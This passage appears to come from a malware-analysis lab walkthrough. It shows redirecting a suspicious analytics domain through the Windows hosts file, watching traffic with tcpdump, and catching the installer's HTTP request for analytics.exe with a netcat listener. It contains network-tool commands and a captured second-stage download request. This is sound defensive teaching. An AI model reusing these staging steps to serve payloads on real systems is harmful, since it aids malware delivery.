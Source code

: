 PS C:\tools\falsimentis> Add-Content -Path C:\windows\system32\drivers\etc\hosts -Value "10.10.75.1  www1-google-analytics.com"
Since we don't know what type of connections the malware will attempt to make to www1-google-analytics.com, we need to restart tcpdump and have it capture all traffic. To do this first exit tcpdump by pressing Ctrl+C. Then restart tcpdump without any filters.

sec504@slingshot:~/labs/falsimentis$ sudo tcpdump -n -i eth0
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Now switch back to the Windows virtual machine and run the malware installer again.

C:\tools\falsimentis> .\AnalyticsInstaller
After the malware installer has finished running switch back to your Linux VM and stop tcpdump by pressing CTRL+C. Examine the tcpdump output – you will see one or more lines similar to the one below.

08:24:19.432923 IP 10.10.0.1.1545 > 10.10.75.1.8088: Flags [S], seq 4020164856, win 65535, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
08:24:19.433042 IP 10.10.75.1.8088 > 10.10.0.1.1545: Flags [R.], seq 0, ack 4020164857, win 0, length 0
The source port in the example above is 1545, yours will likely be different. This is not a problem. The key is the destination port 8088.
This shows a connection attempt to TCP port 8088. Since there is nothing currently listening on that port, a TCP reset is sent back.

Capture the Incoming Request
Since the malware installer is attempting to connect to TCP port 8088, let's set up a Netcat listener using the nc command.

sec504@slingshot:~/labs/falsimentis$ nc -n -v -l -p 8088
listening on [any] 8088 ...
The nc command breaks down as follows:

-n - don't resolve host names
-v - displays verbose output (e.g. when it is listening, when a connection is made, etc.)
-l - listen mode
-p 8088 - listen on port 8088
Now switch back to the Windows VM and run the malware installer again.

C:\tools\falsimentis> .\AnalyticsInstaller.exe
Switch back to your Linux VM and examine the output displayed by Netcat.

connect to [10.10.75.1] from (UNKNOWN) [10.10.0.1] 1546
GET /analytics.exe HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.2; WOW64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)
Host: www1-google-analytics.com:8088
Connection: Keep-Alive
This appears to be an HTTP GET request for /analytics.exe. Now that we've identified the protocol in use, we can terminate the Netcat listener by pressing CTRL+C and continue with molding the environment to give the malware the HTTP server it expects.

Serving analytics.exe with Python
A copy of analytics.exe has been provided in the /home/sec504/labs/falsimentis directory. To serve up the file over HTTP use Python's built-in web server and tell it to listen on port 8088.
